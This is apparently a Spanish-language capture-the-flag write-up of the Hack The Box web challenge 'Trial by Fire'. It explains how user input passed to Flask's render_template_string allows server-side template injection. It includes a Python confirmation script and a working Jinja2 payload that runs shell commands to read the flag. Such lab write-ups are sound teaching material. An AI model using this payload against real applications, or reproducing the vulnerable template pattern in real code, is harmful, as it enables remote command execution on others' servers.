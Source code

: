 ```yaml
---
title: 'Cyber Apocalypse CTF 2025: Trial by Fire'
titleIcon: '/htb-logo.png'
tags: [ 'SSTI', 'RCE', 'Very Easy' ]
categories: [ 'CTF', 'HTB', 'Web' ]
description: |
  Trial by Fire es un reto web de nivel muy fácil. Aprovecharemos una vulnerabilidad de Server-Side Template Injection para obtener ejecución remota de comandos (RCE).
---
```


<font size='5'>Trial by Fire</font>

Creador del desafío: makelaris

Dificultad: <font color='green'>Muy fácil</font>


# Sinopsis

Trial by Fire es un reto web de nivel muy fácil. Aprovecharemos una vulnerabilidad de SSTI para obtener ejecución remota de comandos (RCE).

## Habilidades requeridas

- Conocimientos de Python
- Conocimientos de Jinja2

## Habilidades aprendidas

- Server-Side Template Injection

# Solución

Cuando visitamos el sitio, encontramos un formulario en dónde nos indica que debemos ingresar el nombre del «guerrero».

![](/htb/cyber-apocalypse/trial-by-fire/index.png)

Una vez ingresado el nombre inicia un juego por turnos. Podemos realizar ataques y el dragón responde. 

![](/htb/cyber-apocalypse/trial-by-fire/game.png)

Cuando termina el juego, se muestra una página de estadísticas.

![](/htb/cyber-apocalypse/trial-by-fire/estadisticas.png)

Mirando el código fuente, descubrimos que el `battle-report` está pasando la entrada del usuario a la función `render_template_string()`, lo que es un claro indicador de que la aplicación es vulnerable a SSTI.

```python
@web.route('/battle-report', methods=['POST'])
def battle_report():
    stats = {
        . . .
        'damage_dealt': request.form.get('damage_dealt', "0"),
        'turns_survived': request.form.get('turns_survived', "0")
        . . .
    }

    REPORT_TEMPLATE = f"""
        . . .
        <p class="title">Battle Statistics</p>
        <p>🗡️ Damage Dealt: <span class="nes-text is-success">{stats['damage_dealt']}</span></p>
        . . .
        <p>⏱️ Turns Survived: <span class="nes-text is-primary">{stats['turns_survived']}</span></p>
        . . .
    """

    return render_template_string(REPORT_TEMPLATE)
```

Podemos confirmar el SSTI ejecutando un payload como `{{ 7 * 7 }}`.

```python
import requests

BASE_URL = "http://127.0.0.1:1337"

payload = "{{ 7 * 7 }}"

response = requests.post(f"{BASE_URL}/battle-report", data={
    "damage_dealt": payload
})

print(response.text) # <p>🗡️ Damage Dealt: <span class="nes-text is-success">49</span></p>
```


Ahora usando el payload de abajo podemos obtener la ejecución de comandos del sistema desde SSTI, ¡y obtenemos la bandera!

```python
{{ url_for.__globals__.sys.modules.os.popen('cat flag.txt').read() }}
```